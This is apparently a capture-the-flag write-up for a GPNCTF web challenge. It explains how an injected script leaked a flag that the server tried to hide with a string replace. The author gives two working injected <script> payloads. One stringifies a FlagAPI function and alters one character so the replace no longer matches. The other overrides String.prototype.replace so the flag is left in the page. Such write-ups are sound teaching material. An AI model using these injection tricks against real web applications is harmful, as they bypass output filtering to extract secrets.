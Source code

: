 # Description

I made a JS API! Sadly I had no time to finish it :(
But I had time to make it harder!

# Solution

They did not make it harder. The only new thing in this challenge (compared to the other `todo` challenge) was that once the flag was discovered, they replaced it in the
`server.js`:
```javascript
await page.evaluate((flag) => { document.body.outerHTML = document.body.outerHTML.replace(flag, "nope") }, flag)
```

My solution was to replace a random character in the flag, which then does not do the replace:
```javascript
<script>
  FlagAPI.valueOf = Function.prototype.toString;
  var a = FlagAPI.valueOf();
  a = a.substring(0, 340) + 'x' + a.substring(341);
  document.write(a);
</script>
```

which returns `GPNCTF{TH4T W45_D3FIN1T3LY_NOT_4N_xV3RSIGHT}` and we can replace the `x` with `O` or `0`.

Even better solution is to rewrite the prototype function `replace` so that it actually does not replace but rather print the flag (notice how we don't even
need to access the `script.js` as the flag actually leaks directly from the `replace` function):
```javascript
<script>
  "".__proto__.replace = (a,b) => (a);
</script>
```
